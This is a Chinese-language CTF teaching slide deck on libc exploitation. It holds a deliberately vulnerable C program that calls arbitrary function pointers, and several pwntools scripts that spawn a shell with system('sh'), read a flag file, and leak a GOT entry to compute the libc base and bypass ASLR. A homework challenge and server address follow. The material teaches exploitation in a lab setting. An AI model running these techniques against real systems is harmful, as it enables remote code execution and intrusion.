

# Libc in Linux

廖子慶  
2018/03/27 <!-- .element: align="right" -->

---

# Control 題解

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 10

void handler(int signum){
    puts("Timeout");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    signal(SIGALRM,handler);
    alarm(TIMEOUT);
}

int main(int argc, char *argv[])
{
    init_proc();
    puts("get shell to cat flag2");
    system("ls");

    FILE *fp;
    fp=fopen("flag1.txt","r");
    char *flag;
    flag=malloc(100);
    fgets(flag,100,fp);

    char cmd[10];
    long long (*func)();
    long long args[6];
    printf("cmd in %p\n",&cmd);
    printf("flag in %p\n",flag);
    while(1){
        puts("0. set rdi");
        puts("1. set rsi");
        puts("2. set rdx");
        puts("3. set rcx");
        puts("4. set r8");
        puts("5. set r9");
        puts("6. call function");
        printf("choose:");
        read(0,cmd,10);
        int idx=atoi(cmd);
        printf("value:");
        long long value;
        scanf("%lld",&value);
        if (idx==6) {
            func=(long long (*)()) value;
            (long long)(*func)(args[0],args[1],args[2],args[3],args[4],args[5]);
        }
        if (idx>=0&&idx<=5){
            args[idx]=value;
        }
    }
    return 0;
}
```

--

## 情境 1

- 用題目給的 Buffer 位置

```python
from pwn import *

#  io=remote('sv.duckll.tw',8888)
io=remote('localhost',4000)

elf=ELF('./a.out')

io.recvuntil("cmd in ")
cmd=int(io.recvline()[:-1],16)
io.recvuntil("flag in ")
flag=int(io.recvline()[:-1],16)

def send(key,value):
    io.sendafter(":",key)
    io.sendlineafter(":",str(value))

#system('sh')
send("0sh\x00",cmd+1)
send("6",elf.plt['system'])

io.interactive()
```

--

## 情境 2

- 如果題目今天都沒給位置
- 用 ELF 通用的 Buffer 位置(bss+0x100)

```python
from pwn import *

#  io=remote('sv.duckll.tw',8888)
io=remote('localhost',4000)

elf=ELF('./a.out')
buf=elf.bss()+0x100

def send(key,value):
    io.sendafter(":",str(key))
    io.sendlineafter(":",str(value))

#read(0,buf,3)
send(0,0)
send(1,buf)
send(2,3)
send(6,elf.plt['read'])
io.send('sh\x00')

#system('sh')
send(0,buf)
send(6,elf.plt['system'])

io.interactive()
```

--

# 上面的都不夠 trick

--

## 情境 3

- 如果今天沒有給 system
- 用 main 的 fopen 開 flag2.txt

```python
from pwn import *

io=remote('sv.duckll.tw',8888)
#  io=remote('localhost',4000)

elf=ELF('./a.out')
buf=elf.bss()+0x100

def send(key,value):
    io.sendafter(":",str(key))
    io.sendlineafter(":",str(value))

#read(0,buf,12)
send(0,0)
send(1,buf)
send(2,12)
send(6,elf.plt['read'])
io.send('flag2.txt\x00r\x00')

#fopen('flag2.txt','r')
send(0,buf)
send(1,buf+10)
send(6,elf.symbols['main']+79)

#flag2.txt
io.recvuntil("flag in ")
flag=int(io.recvline()[:-1],16)

#puts(flag2)
send(0,flag)
send(6,elf.plt['puts'])

io.interactive()
```

--

## FILE 沒你想得簡單

```c
typedef struct
{
 short level ;
 short token ;
 short bsize ;
 char fd ;
 unsigned flags ;
 unsigned char hold ;
 unsigned char *buffer ;
 unsigned char * curp ;
 unsigned istemp;
}FILE ;
```

- 之前說過 fd 可以預測
- 但 fopen,fegt 用的是 FILE
- fd 可預測性是在 ASM 用的

---

# 心很累?

# 今天如果沒有 fopen

想辦法拿 system

--

# Information Leak

# DeASLR

--

## 複習 plt got 關係



--

## 實際上位置大概是這樣


--

## libc symbol 間相對位置是固定的

## 只要知道一個 libc symbol 位置

## 就可以回推所有的 libc symbol 位置

```python
from pwn import *

libc=ELF('./libc.so.6')
libc.symbols
```

--

# libc 的相對位置每個版本不同

## 如何知道用了哪個 libc

```sh
$ldd elf
#linux-vdso.so.1 =>  (0x00007ffc297b0000)
#libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4bee170000)
#/lib64/ld-linux-x86-64.so.2 (0x00007f4bee53a000)
```

## 如何設定指定的 libc

```sh
$export LD_LIBRARY_PATH=.
```

--

# 如何 Leak

只要能 wirte 的 function 都可以

- write
- puts
- printf
- ...
- 甚至是錯誤訊息

--

# DEMO

```python
from pwn import *

#  io=remote('sv.duckll.tw',8888)
#  io=remote('localhost',4000)
io=process('./a.out')

elf=ELF('./a.out')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def send(key,value):
    io.sendafter(":",key)
    io.sendlineafter(":",str(value))

io.recvuntil("cmd in ")
cmd=int(io.recvline()[:-1],16)
log.info("cmd@{}".format(hex(cmd)))

#puts(got['fgets'])
send("0",elf.got['fgets'])
send("6",elf.plt['puts'])

leak=io.recvline()[:-1]
libc_fgets=u64(leak.ljust(8,'\x00'))
log.info("libc_fgets@{}".format(hex(libc_fgets)))

libc_base=libc_fgets-libc.symbols['fgets']
log.info("libc_base@{}".format(hex(libc_base)))

libc_system=libc_base+libc.symbols['system']
log.info("libc_system@{}".format(hex(libc_system)))

#system('sh')
send('0sh\x00',cmd+1)
send('6',libc_system)

io.interactive()
```

---

# 回家作業

Control_revenge

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 10

void handler(int signum){
    printf("Timeout\n");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    signal(SIGALRM,handler);
    alarm(TIMEOUT);
}

int main(int argc, char *argv[])
{
    init_proc();
    char cmd[2];
    long long (*func)();
    long long args[6];
    while(1){
        printf("0. set rdi\n");
        printf("1. set rsi\n");
        printf("2. set rdx\n");
        printf("3. set rcx\n");
        printf("4. set r8\n");
        printf("5. set r9\n");
        printf("6. call function\n");
        printf("choose:");
        read(0,cmd,1);
        int idx=atoi(cmd);
        printf("value:");
        long long value;
        scanf("%lld",&value);
        if (idx==6) {
            func=(long long (*)()) value;
            (long long)(*func)(args[0],args[1],args[2],args[3],args[4],args[5]);
        }
        if (idx>=0&&idx<=5){
            args[idx]=value;
        }
    }
    return 0;
}
```

```sh
$gcc main.c -fno-builtin-printf
#防止printf自動轉成puts
```

--

# 檔案位置

```sh
nc sv.duckll.tw 7777
```

[control_revenge.out](https://drive.google.com/open?id=1PKnPIwlNAKGF0Z31cdpI78_70xiO_PzH)

[libc.so.6](https://drive.google.com/open?id=1XtwiD7TmA5oIFIUSnFLR_udGwBH0zg5-)

# Tips

- printf 沒有換行
- libc 一定要對

---

# END
